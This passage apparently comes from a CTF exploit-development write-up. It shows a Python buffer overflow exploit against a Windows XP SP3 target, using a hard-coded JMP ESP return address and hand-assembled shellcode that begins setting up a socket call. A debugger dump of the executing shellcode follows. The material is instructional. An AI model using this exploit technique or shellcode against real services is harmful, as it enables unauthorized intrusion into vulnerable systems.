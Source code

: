``` python

# the start of our collection of supported platforms
targets = [
  { 'Name': 'Windows XP SP3', 'JMPESP': 0x7e4456f7 }
]

# Hard coded target for now
target = targets[0]

print "[*] Attacking {0}:{1} ...".format(host, port)

block1  = ""
# Adjust the stack to prevent it from breaking things in our shellcode
block1 += "\x83\xEC\x7C"                       # SUB ESP, 0x7C
# Get the address of `socket` into EBX
block1 += "\xBB\x44\x34\x34\x40"               # MOV EBX,<offsetted address>
block1 += "\xC1\xEB\x08"                       # SHR EBX, 0x8
# set up the stack for the call to `socket`
block1 += "\xB0\x06"                           # MOV AL, 0x6
block1 += "\x50"                               # PUSH EAX
block1 += "\xB0\x01"                           # MOV AL, 0x1
block1 += "\x50"                               # PUSH EAX
block1 += "\x40"                               # INC EAX
block1 += "\x50"                               # PUSH EAX
# invoke the call to `socket`
block1 += "\xFF\xD3"                           # CALL EBX
# set a breakpoint so we can see what's going on
block1 += "\xCC"

command  = ""
command += "Z" * (offsets['SC'] - len(command))
command += "B" * (offsets['EIP'] - len(command))
command += struct.pack("<L", target['JMPESP'])
command += "C" * (offsets['ESP'] - len(command))
command += block1
command += "E" * (max_size - len(command))

print "[*] Command {0} chars...".format(len(command))
pwn(command)
```

Invocation shows shellcode that has just been invoked looking like this:

``` txt
00B5FFC0   83EC 7C          SUB ESP,7C
00B5FFC3   BB 44343440      MOV EBX,40343444
00B5FFC8   C1EB 08          SHR EBX,8
00B5FFCB   B0 06            MOV AL,6
00B5FFCD   50               PUSH EAX
00B5FFCE   B0 01            MOV AL,1
00B5FFD0   50               PUSH EAX
00B5FFD1   40               INC EAX
00B5FFD2   50               PUSH EAX
00B5FFD3   FFD3             CALL EBX
```


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux